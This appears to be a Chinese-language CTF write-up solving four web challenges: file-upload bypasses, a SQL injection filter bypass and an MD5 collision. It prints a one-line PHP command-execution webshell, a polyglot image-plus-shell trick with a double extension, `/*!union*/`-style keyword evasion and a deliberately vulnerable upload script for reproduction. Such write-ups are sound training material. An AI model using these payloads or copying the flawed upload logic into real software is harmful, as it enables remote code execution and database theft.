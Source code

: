 # 不一样的上传系统

与预选赛题目一样，将大马`php_mof SHELL.pHp.jpg`压缩成zip上传，即可通过大马获取flag。

# 简单文件上传

要求上传一个图片，并且大小存在限制。尝试后发现后台是通过文件头来判断文件类型的，因此可以上传一个图片马：

## 0x01

构造一个一句话`webshell.php`，内容如下：

```php
<?php @system($_GET["cmd"]);?>
```

## 0x02

准备一张正常图片`realpng.png`，使用命令`cat realpng.png webshell.php > payload.php.php`之所以要写两遍后缀是为了绕过后台替换第一个php为图片格式的后缀。

## 0x03

上传`payload.php.php`返回上传路径：

![uploadsuccess](writeup.assets/uploadsuccess-1541417598061.png)

## 0x04

通过一句话找到flag。

列出目录下的文件，发现存在一个奇怪的文件：

![step2](writeup.assets/step2-1541417703559.png)

读取该文件内容得到flag：

![step3](writeup.assets/step3.png)

这里提供上传逻辑代码，供复现使用：

```php+HTML
<html>
<body>
<form action="index.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="hidden" name="Upload" id="Upload" value = "Upload">
<br/>
<input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
<?php
if(isset($_POST[ 'Upload' ])){
    $html = "";
    $token = sha1($_SERVER['REMOTE_ADDR']);
    $target_path  = "uploads/".$token."/";
    if (!file_exists($target_path)){
        mkdir ($target_path,0755,true);
    }
    $uploaded_name = $_FILES[ 'file' ][ 'name' ];
    $uploaded_tpye = $_FILES[ 'file' ][ 'type' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'file' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'file' ][ 'tmp_name' ];
    $type = ".".substr(mime_content_type($uploaded_tmp),-3);
    $_FILES[ 'file' ][ 'name' ] = preg_replace("/\..../",$type,$uploaded_name,1);
    $target_path .= basename($_FILES[ 'file' ][ 'name' ]);
    if($uploaded_size>100000)
    {
        echo '<pre>Your file is too big.</pre>';
        exit;
    }
    if(getimagesize($uploaded_tmp))
    {

        if(!move_uploaded_file($uploaded_tmp,$target_path))
        {
            $html .= '<pre>Your image was not uploaded.</pre>';
        }
        else {
            $html .= "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        $html .= '<pre>It is not a image</pre>';
    }
    echo $html;
}
?>
```

# 新的新闻搜索

word字段存在注入点，但是使用union注入时会将union，select等的关键字的最后一个字母html编码，想到使用`/*!union*/`,`/*!select*/`绕过：

![step1](writeup.assets/step1.png)

查库，得到news：

![step2](writeup.assets/step2-1541417918841.png)

查表，得到admin表：

![step3](writeup.assets/step3-1541417936188.png)

查列，得到flag列

![step4](writeup.assets/step4.png)

查记录，得到flag：

![step5](writeup.assets/step5.png)

# MD5碰撞

要求`$_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])`，强网杯原题，参考[writeup](https://xz.aliyun.com/t/2232)。

指定param1和param2相同的开头，这里以"1"为例:

```bash
echo '1'>init.txt
```

接着使用fastcoll生成具有相同md5的文件：

```bash
λ fastcoll_v1.0.0.5.exe -p init.txt -o 1.txt 2.txt
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: '1.txt' and '2.txt'
Using prefixfile: 'init.txt'
Using initial value: b012cf77f9677e37eea923017fc5e83e

Generating first block: ..
Generating second block: S00....
Running time: 0.641 s
```

将1.txt和2.txt内容进行编码后发送即可的得到flag。

提供代码方便复现：

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("flag!");
}
```

